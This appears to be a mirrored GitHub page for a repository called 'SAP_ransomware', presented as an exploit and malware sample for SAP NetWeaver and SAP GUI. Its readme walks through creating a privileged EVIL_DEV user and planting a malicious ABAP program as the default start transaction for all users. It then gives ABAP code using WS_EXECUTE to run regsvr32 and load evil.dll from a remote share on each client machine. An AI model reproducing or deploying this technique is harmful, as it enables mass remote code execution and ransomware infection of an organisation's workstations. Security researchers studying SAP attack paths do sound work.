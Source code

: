 # SAP_ransomware

Simple remote command execution exploit code for SAP GUI

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/vah13](https://github.com/vah13) |
| Url      | [https://github.com/vah13/SAP_ransomware](https://github.com/vah13/SAP_ransomware)                                               |
| Stars    | 10                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2017-6950* exploit* hacking* malware* netweaver* ransom-worm* sap

</details>

## Readme

# SAP ransomware sample
Simple remote command execution exploit code for SAP GUI
First of all need to create a malicious ABAP program on SAP NetWeaver AS ABAP

1) First of all, to get RCE on a client’s computer, it is necessary to create a user with developer rights. The user SAP* cannot create or change any programs. To do this, run transaction su01 and  create a new user with SAP_ALL rights under login EVIL_DEV.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/1.png)

2) Then, login as the EVIL_DEV user, run transaction se38 and create a program sap_malware_prog.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/2.png)

3) Then when we are able to create a program, we click the Insert button, then copy a program, which executes malicious functionality, then save all and activate the program.
![](https://github.com/vah13/SAP_ransomware/blob/master/img/3.png)

4) Create custom transaction with se93
![](https://github.com/vah13/SAP_ransomware/blob/master/img/4.png)

5) Connect custom transaction to malware program
![](https://github.com/vah13/SAP_ransomware/blob/master/img/5.png)

6) Set mlauncher transaction by default 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/6.png)

7) The screenshot shows that we set start transaction – mlauncher for all users. 
![](https://github.com/vah13/SAP_ransomware/blob/master/img/7.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/8.png)
![](https://github.com/vah13/SAP_ransomware/blob/master/img/9.png)

## ABAP code for execute any command in SAP clients hosts
```
CALL FUNCTION 'WS_EXECUTE'
       EXPORTING
            program = 'c:\Windows\System32\regsvr32.exe'
            commandline     = '/i /s \\REMOTE_FOLDER\tmp\evil.dll'
            INFORM         = ''
           EXCEPTIONS
                  FRONTEND_ERROR        = 1
                  NO_BATCH                 = 2
                  PROG_NOT_FOUND           = 3
                  ILLEGAL_OPTION           = 4
                  GUI_REFUSE_EXECUTE       = 5
                  OTHERS                   = 6.
  ```
  
  using this vulnerability developers or sap administrator can execute any command on users computers and infected them



## Get the content

```
git clone https://github.com/vah13/SAP_ransomware
cd SAP_ransomware
```

{% embed url="https://github.com/vah13/SAP_ransomware" %}

<figure><img src="https://avatars.githubusercontent.com/u/7976421?v=4" alt=""><figcaption><p>vah13</p></figcaption></figure>
